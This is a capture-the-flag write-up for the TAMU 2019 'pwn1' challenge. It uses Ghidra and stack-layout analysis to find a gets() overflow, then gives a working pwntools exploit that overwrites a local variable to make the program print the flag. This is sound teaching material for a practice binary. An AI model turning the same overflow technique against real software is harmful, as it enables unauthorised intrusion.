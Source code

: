 # Tamu19 pwn1

Let's take a look at the binary:

```bash
$    file pwn1
pwn1: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
$    pwn checksec pwn1
[*] '/Hackery/pod/modules/bof_variable/tamu19_pwn1/pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
$    ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
15935728
I don't know that! Auuuuuuuugh!
```

So we can see that it is a `32` bit binary with RELRO, a Non-Executable Stack, and PIE (those binary mitigations will be discussed later). We can see that when we run the binary, it prompts us for input, and prints some text. When we take a look at the main function in Ghidra we see this:

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */
/* WARNING: Removing unreachable block (ram,0x000108bb) */

undefined4 main(void)

{
  int strcmpResult0;
  int strcmpResult1;
  char input [43];

  setvbuf(stdout,(char *)0x2,0,0);
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere theother side he see."
      );
  puts("What... is your name?");
  fgets(input,0x2b,stdin);
  strcmpResult0 = strcmp(input,"Sir Lancelot of Camelot\n");
  if (strcmpResult0 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(input,0x2b,stdin);
  strcmpResult1 = strcmp(input,"To seek the Holy Grail.\n");
  if (strcmpResult1 == 0) {
    puts("What... is my secret?");
    gets(input);
    puts("I don\'t know that! Auuuuuuuugh!");
    return 0;
  }
  puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

So right off the back, we can see we are dealing with a reference to one of the greatest movies ever (Monty Python and the Holy Grail). We can see that it will scan in input into `input` using `fgets`, then compares our input with `strcmp`. It does this twice. The first time it checks for the string `Sir Lancelot of Camelot\n` and the second time it checks for the string `To seek the Holy Grail.\n`. If we don't pass the check the first time, it will print `I don\'t know that! Auuuuuuuugh!` and exit. For the second check if we pass it, the code will call the function `gets` with `input` as an argument. The function `gets` will scan in data until it either gets a newline character or an EOF. As a result on paper there is no limit to how much it can scan into memory. Since the are it is scanning into is finite, we will be able to overflow it and start overwriting subsequent things in memory.

Also looking at the assembly code for around the `gets` call, we see something interesting that the decompiled code doesn't show us:

```asm
        000108aa e8 71 fc        CALL       gets                                             char * gets(char * __s)
                 ff ff
        000108af 83 c4 10        ADD        ESP,0x10
        000108b2 81 7d f0        CMP        dword ptr [EBP + local_18],0xdea110c8
                 c8 10 a1 de
        000108b9 75 07           JNZ        LAB_000108c2
        000108bb e8 3d fe        CALL       print_flag                                       undefined print_flag()
                 ff ff
```

So we can see that it compares the contents of `local_18` to `0xdea110c8`, and if it is equal (which would mean it's zero) it calls the `print_flag` function. Looking at the decompiled code for `print_flag`, we see that it prints the contents of `flag.txt`:

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void print_flag(void)

{
  FILE *flagFile;
  int flag;

  puts("Right. Off you go.");
  flagFile = fopen("flag.txt","r");
  while( true ) {
    flag = _IO_getc((_IO_FILE *)flagFile);
    if ((char)flag == -1) break;
    putchar((int)(char)flag);
  }
  putchar(10);
  return;
}
```

So if we can use the `gets` call to overwrite the contents of `local_18` to `0xdea110c8`, we should get the flag (if you're running this locally you will need to have a copy of `flag.txt` that is in the same directory as the binary). So in order to reach the `gets` call, we will need to send the program the string `Sir Lancelot of Camelot\n` and `To seek the Holy Grail.\n`. Looking at the stack layout in Ghidra (we can see it by double clicking on any of the variables in the variable declarations for the main function) shows us the offset between the start of our input and `local_18`:

```asm
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[2]:     00010807(W),
                                                                                                   00010869(W)
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     00010779(*)
             int               EAX:4          strcmpResult0                           XREF[1]:     00010807(W)
             int               EAX:4          strcmpResult1                           XREF[1]:     00010869(W)
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     00010780(R)
             undefined1        Stack[-0x10]:1 local_10                                XREF[1]:     000108d9(*)
             undefined4        Stack[-0x14]:4 local_14                                XREF[1]:     000107ad(W)
             undefined4        Stack[-0x18]:4 local_18                                XREF[2]:     000107b4(W),
                                                                                                   000108b2(R)
             char[43]          Stack[-0x43]   input                                   XREF[5]:     000107ed(*),
                                                                                                   00010803(*),
                                                                                                   0001084f(*),
                                                                                                   00010865(*),
                                                                                                   000108a6(*)
                             main                                            XREF[5]:     Entry Point(*),
                                                                                          _start:000105e6(*), 00010ab8,
                                                                                          00010b4c(*), 00011ff8(*)
        00010779 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]

```

So we can see that `input` starts at offset `-0x43`. We see that `local_18` starts at offset `-0x18`. This gives us an offset of `0x43 - 0x18 = 0x2b` between the start of our input and `local_18`. Then we can just overflow it (write more data to a region than it can hold, so it spills over and starts overwriting subsequent things in memory) and overwrite `local_18` with `0xdea110c8`. Putting it all together we get the following exploit:

```python
# Import pwntools
from pwn import *

# Establish the target process
target = process('./pwn1')

# Make the payload
payload = ""
payload += "0"*0x2b # Padding to `local_18`
payload += p32(0xdea110c8) # the value we will overwrite local_18 with, in little endian

# Send the strings to reach the gets call
target.sendline("Sir Lancelot of Camelot")
target.sendline("To seek the Holy Grail.")

# Send the payload
target.sendline(payload)

target.interactive()
```

When we run it:

```bash
$    python exploit.py
[+] Starting local process './pwn1': pid 12060
[*] Switching to interactive mode
[*] Process './pwn1' stopped with exit code 0 (pid 12060)
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}

[*] Got EOF while reading in interactive
$
[*] Got EOF while sending in interactive
```

Just like that, we got the flag!
